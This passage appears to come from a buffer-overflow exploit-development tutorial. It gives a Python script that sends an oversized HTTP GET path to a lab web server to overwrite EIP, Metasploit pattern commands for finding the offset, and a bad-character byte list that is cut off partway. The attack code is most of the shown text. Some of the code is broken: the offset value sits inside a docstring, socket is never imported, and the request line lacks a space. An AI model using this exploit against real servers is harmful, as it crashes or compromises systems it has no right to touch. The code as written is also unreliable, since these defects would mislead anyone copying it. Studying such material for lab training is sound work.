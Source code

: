 ```
"""

# offset
2499

"""
host = "192.168.224.10"
port = 80


def send_exploit_request():
    size = 6000
    buffer  = b"A"*offset


    #HTTP Request
    request = b"GET /" + buffer + b"HTTP/1.1" + b"\r\n"
    request += b"Host: " + host.encode() + b"\r\n"
    request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + b"\r\n"
    request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + b"\r\n"
    request += b"Accept-Language: en-US,en;q=0.5" + b"\r\n"
    request += b"Accept-Encoding: gzip, deflate" + b"\r\n"
    request += b"Connection: keep-alive" + b"\r\n\r\n"
 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(request)
    s.close()

if __name__ == "__main__": 

    send_exploit_request()
```

## 2- Find Offset
For finding the offset where the `EIP` get overwrited.
- Create Unique pattern:
```
msf-pattern_create -l size
```
- Find the offset match of the pattern
```
msf-pattern_offset -l size -q value
```

## 3- Detect BadChars
```
badchars = (
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
```
